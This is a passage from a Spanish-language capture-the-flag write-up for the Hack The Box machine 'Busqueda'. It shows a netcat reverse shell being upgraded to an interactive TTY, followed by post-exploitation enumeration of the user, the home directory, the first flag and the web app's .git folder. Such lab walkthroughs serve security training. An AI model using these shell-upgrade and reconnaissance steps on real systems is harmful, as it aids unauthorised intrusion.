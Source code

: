 ```
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
svc@busqueda:/var/www/app$ ^Z
[1]+  Stopped                 nc -lvnp 443
root@kali:~/Desktop/HTB/Machines/Busqueda/exploits# stty raw -echo; fg
nc -lvnp 443

svc@busqueda:~$ export TERM=xterm
svc@busqueda:~$ 


```
Ahora que podemos navegar por el sistema como si fuera nuestra máquina, procedemos a enumerar el sistema operativo, empezando por el usuario y su home en el cual se encuentra la primera flag: `user.txt`.
```
svc@busqueda:/var/www/app$ whoami
svc
svc@busqueda:/var/www/app$ id
uid=1000(svc) gid=1000(svc) groups=1000(svc)
svc@busqueda:/var/www/app$ pwd
/var/www/app
svc@busqueda:/var/www/app$ cd &&pwd
/home/svc
svc@busqueda:~$ ls -la
total 3076
drwxr-x--- 6 svc  svc     4096 May 23 08:45 .
drwxr-xr-x 3 root root    4096 Dec 22 18:56 ..
lrwxrwxrwx 1 root root       9 Feb 20 12:08 .bash_history -> /dev/null
-rw-r--r-- 1 svc  svc      220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 svc  svc     3771 Jan  6  2022 .bashrc
drwx------ 2 svc  svc     4096 Feb 28 11:37 .cache
-rw-rw-r-- 1 svc  svc      109 May 23 07:25 .gitconfig
drwx------ 3 svc  svc     4096 May 23 09:04 .gnupg
drwxrwxr-x 5 svc  svc     4096 Jun 15  2022 .local
lrwxrwxrwx 1 root root       9 Apr  3 08:58 .mysql_history -> /dev/null
-rw-r--r-- 1 svc  svc      807 Jan  6  2022 .profile
-rwxr-xr-x 1 svc  svc  3104768 May 23 08:16 pspy64
lrwxrwxrwx 1 root root       9 Feb 20 14:08 .searchor-history.json -> /dev/null
drwx------ 3 svc  svc     4096 May 23 07:12 snap
-rw-r----- 1 root svc       33 May 23 05:41 user.txt
```

Volvemos al punto de partida `/var/www/app/` para intentar encontrar algo por lo que empezar.
```
svc@busqueda:/var/www/app$ ls -la
total 20
drwxr-xr-x 4 www-data www-data 4096 Apr  3 14:32 .
drwxr-xr-x 4 root     root     4096 Apr  4 16:02 ..
-rw-r--r-- 1 www-data www-data 1124 Dec  1 14:22 app.py
drwxr-xr-x 8 www-data www-data 4096 May 23 13:06 .git
drwxr-xr-x 2 www-data www-data 4096 Dec  1 14:35 templates
svc@busqueda:/var/www/app$ cd .git
svc@busqueda:/var/www/app/.git$ ls -la
total 52
drwxr-xr-x 8 www-data www-data 4096 May 23 13:06 .
drwxr-xr-x 4 www-data www-data 4096 Apr  3 14:32 ..
drwxr-xr-x 2 www-data www-data 4096 Dec  1 14:35 branches
-rw-r--r-- 1 www-data www-data   15 Dec  1 14:35 COMMIT_EDITMSG
-rw-r--r-- 1 www-data www-data  294 Dec  1 14:35 config
-rw-r--r-- 1 www-data www-data   73 Dec  1 14:35 description
-rw-r--r-- 1 www-data www-data   21 Dec  1 14:35 HEAD
drwxr-xr-x 2 www-data www-data 4096 Dec  1 14:35 hooks
```